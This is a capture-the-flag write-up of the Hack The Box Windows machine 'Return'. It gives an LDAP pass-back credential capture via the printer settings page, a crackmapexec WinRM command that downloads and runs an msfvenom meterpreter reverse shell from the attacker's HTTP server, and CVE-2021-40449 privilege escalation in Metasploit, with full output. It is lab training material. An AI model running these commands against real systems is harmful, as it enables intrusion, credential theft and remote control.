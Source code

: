 # Target
| Category          | Details                                              |
|-------------------|------------------------------------------------------|
| 📝 **Name**       | [Return](https://app.hackthebox.com/machines/Return) |  
| 🏷 **Type**       | HTB Machine                                          |
| 🖥 **OS**         | Windows                                              |
| 🎯 **Difficulty** | Easy                                                 |
| 📁 **Tags**       | LDAP, crackmapexec, Metasploit, CVE-2021-40449       |

# Scan
```
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-09 07:03:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-09T07:03:58
|_  start_date: N/A
|_clock-skew: 18m34s
```

# Attack path
1. [Gain initial foothold by capturing credentials for `svc-printer` user](#gain-initial-foothold-by-capturing-credentials-for-svc-printer-user)
2. [Escalate to `Administrator` using CVE-2021-40449](#escalate-to-administrator-using-cve-2021-40449)

### Gain initial foothold by capturing credentials for `svc-printer` user

#### Add `return.local` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ echo "$TARGET return.local" | sudo tee -a /etc/hosts
10.129.93.146 return.local
```

#### Discover printer LDAP settings web page under `http://return.local/settings.php`
![Printer settings](images/printer_settings.png)

HTTP request investigation shows that `ip` is the only parameter actually being sent.

#### Start `netcat` on port 389 to listen for LDAP authentication request
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ nc -lvnp 389
listening on [any] 389 ...
```

#### Trigger LDAP authentication request with HTTP POST sending attacker's IP
```
┌──(magicrc㉿perun)-[~/attack/HTB DarkZero]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
curl http://return.local/settings.php -d "ip=$LHOST"
```

#### Captrue `svc-printer` user credentials
```
connect to [10.10.16.17] from (UNKNOWN) [10.129.93.146] 60694
0*`%return\svc-printer�
                       1edFg43012!!
```

#### Generate `windows/x64/meterpreter/reverse_tcp` reverse shell and host it over HTTP
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f exe \
    -o shell.exe && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/x64/meterpreter/reverse_tcp
```

#### Spawn reverse shell connection using `crackmapexec winrm`
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
crackmapexec winrm return.local -u svc-printer -p '1edFg43012!!' -x "powershell wget http://$LHOST:8000/shell.exe -OutFile C:\Users\svc-printer\Documents\shell.exe; powershell C:\Users\svc-printer\Documents\shell.exe"
SMB         return.local    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        return.local    5985   PRINTER          [*] http://return.local:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       return.local    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
WINRM       return.local    5985   PRINTER          [+] Executed command
WINRM       return.local    5985   PRINTER
```

#### Confirm foothold gained
```
[*] Sending stage (203846 bytes) to 10.129.93.146
[*] Meterpreter session 1 opened (10.10.16.17:4444 -> 10.129.93.146:60725) at 2025-10-12 11:37:04 +0200

meterpreter > getuid
Server username: RETURN\svc-printer
```

### Escalate to `Administrator` using [CVE-2021-40449](https://nvd.nist.gov/vuln/detail/CVE-2021-40449)

### Run `exploit/windows/local/cve_2021_40449`
Exploit found with `post/multi/recon/local_exploit_suggester`.
```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2021_40449
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2021_40449) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2021_40449) > set LHOST tun0
LHOST => tun0
msf exploit(windows/local/cve_2021_40449) > set LPORT 5555
LPORT => 5555
msf exploit(windows/local/cve_2021_40449) > run
[*] Started reverse TCP handler on 10.10.16.17:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching netsh to host the DLL...
[+] Process 1048 launched.
[*] Reflectively injecting the DLL into 1048...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 10.129.93.146
[*] Meterpreter session 2 opened (10.10.16.17:5555 -> 10.129.93.146:60732) at 2025-10-12 11:38:41 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
